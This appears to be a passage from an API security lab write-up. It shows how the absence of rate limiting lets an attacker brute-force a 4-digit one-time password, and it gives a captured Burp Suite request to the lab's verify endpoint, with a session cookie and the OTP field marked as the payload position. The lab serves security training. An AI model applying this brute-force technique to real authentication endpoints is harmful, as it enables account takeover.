 **Unlimited Attempts**

Over the past few years, web application developers have migrated from traditional architecture to API-driven architecture. The authentication, authorization, sensitive data, etc are being handled by APIs these days. A misconfiguration or a vulnerability is all an attacker needs to do significant damage.

In this lab, <u>we will take a look at how the lack of rate-limiting could be leveraged to perform brute force attacks and bypass authentication</u>.

**Objective**: <u>Brute force the 4 digit one-time password and bypass the authentication</u>.

URL: `https://zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com/dev`.

#### Lab Solution

![Lab - Unlimited Attempts](./assets/05_testing_for_common_attacks_lab_unlimited_attempts.png)

`burpsuite` > `Proxy`

`HTTP Request`:
```http
POST /dev/verify📌 HTTP/1.1 
Host: zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 165
Origin: https://zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com
Connection: close
Referer: https://zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com/dev
Cookie: SESSIONID=Z0FBQUFBQm5SeXNyVC1yNXpRSF95dlY2ZjlDNHNxcUs3a0tnQjVZNk5ITWF2NjB6N000c2NEcV9BbVhhVGxHMWtZaFNtYy13Tmx2S3VMcjUwU1lvU0pFQ1djMHNtRnQ2VUE9PQ==

{"sessionid":"Z0FBQUFBQm5SeXNyVC1yNXpRSF95dlY2ZjlDNHNxcUs3a0tnQjVZNk5ITWF2NjB6N000c2NEcV9BbVhhVGxHMWtZaFNtYy13Tmx2S3VMcjUwU1lvU0pFQ1djMHNtRnQ2VUE9PQ==","otp":"1234"}📌
```

